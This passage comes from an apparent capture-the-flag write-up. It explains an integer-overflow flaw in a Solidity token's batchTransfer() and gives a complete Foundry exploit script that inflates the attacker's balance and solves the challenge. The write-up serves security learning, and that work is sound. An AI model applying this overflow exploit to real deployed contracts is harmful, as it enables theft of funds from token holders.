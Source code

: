 ```solidity
amount = 2**256 / len + 1
receivers.length = len
=> amount * len = 1 (mod 2^256) == low number
```

Now let’s weaponize it.

## Weaponization

### My first baaaad idea

At first, I thought I could get clever and mess with the `calldata` manually—like literally crafting a fake first 32 bytes of receivers, representing `receivers.length`, that is huge, so I could underflow the multiplication check in `batchTransfer()`. The idea was: keep `amount` small, and abuse the overflow on `amount * length` to make it pass the balance check. But realistically? That’s just a one-way trip to **out-of-gas hell**, especially if you're looping through a massive array.

### Second thought

Instead of going wild with calldata length hacks or overflow stunts, I just abused the fact that `batchTransfer()` lets me set **any `amount` I want**. No checks, no questions. I picked a huge `amount`, crafted a tiny `receivers[]`, and inflated my balance. Then, when Setup did its usual `stakeINR()` routine, it deposited 100k INR into a vault with success. insert :emoji_fire:

```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.20;

import {Script, console} from "forge-std/Script.sol";
import {Setup} from "src/Setup.sol";
import {Stake} from "src/Stake.sol";
import {INR} from "src/INR.sol";


contract Exploit is Script {
    address badDude;

    function run() public {
        Setup setup = Setup(0x5FbDB2315678afecb367f032d93F642f64180aa3); // local addr
        Stake stake = Stake(setup.stake());
        INR inr = INR(setup.inr());

        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        badDude = vm.addr(privateKey);

        vm.startBroadcast(privateKey);

        setup.claim();
        uint256 amount = type(uint256).max / 2 + 1;
        address[] memory receivers = new address[](2); // we don't need the last address that is just to overflow
        receivers[0] = address(badDude); 
        receivers[1] = address(0);

        inr.batchTransfer(receivers, amount); 
        inr.approve(address(stake), inr.balanceOf(badDude));

        setup.stakeINR();
        setup.solve();
        require(setup.isSolved(), "nah plz ctf god, enlight me! what's wrong my lil' boi");

        vm.stopBroadcast();
    }
}
```